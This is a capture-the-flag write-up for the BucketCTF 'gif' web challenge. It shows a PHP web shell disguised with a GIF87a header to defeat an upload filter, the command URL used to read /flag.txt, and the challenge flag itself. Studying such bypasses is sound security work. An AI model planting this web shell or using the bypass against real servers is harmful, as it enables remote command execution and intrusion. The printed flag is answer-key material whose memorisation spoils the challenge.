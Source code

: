 ```yaml
---
author: "Asad Ullah"
title: "Gif  - BucketCTF"
description: 
summary: Write-up on web challenge gif tackling a file upload vulnerability.
date: 2023-04-10T05:04:14+05:00
Section: write-ups
categories:
- writeup
- web
tags:
- bucketctf
- web exploitation
- upload vulnerability
- php
- payload
- gif

draft: true

---
```


{{< 
ctftime 
name="gif" 
difficulty="Hard"  
points="272"
category="Web"
>}}

&nbsp;

&nbsp;





## Description

I made a **secure** php web app where I can upload all my gifs. Some people on the internet told me to run it in a docker container just to protect it from my personal files, but who cares.

## Approach

At first, I attempted to upload a basic PHP payload, but the server only permitted GIF files. So, I modified the payload by adding a GIF header, `GIF87a;` and it worked.

```php
GIF87a;
<?php
    system($_GET['cmd'])
?>
```

&nbsp;

![Untitled](/write-ups/ctftime/bucket/upload.webp#center)

&nbsp;

Our file is stored in ***/uploads*** so we can now execute commands on the machine and access the flag: `/uploads/payload.php/?cmd=cat /flag.txt`

![Untitled](/write-ups/ctftime/bucket/flag.webp#center)

&nbsp;

&nbsp;

---

**Flag: `bucket{1_h4t3_PHP}`**

---

&nbsp;

&nbsp;
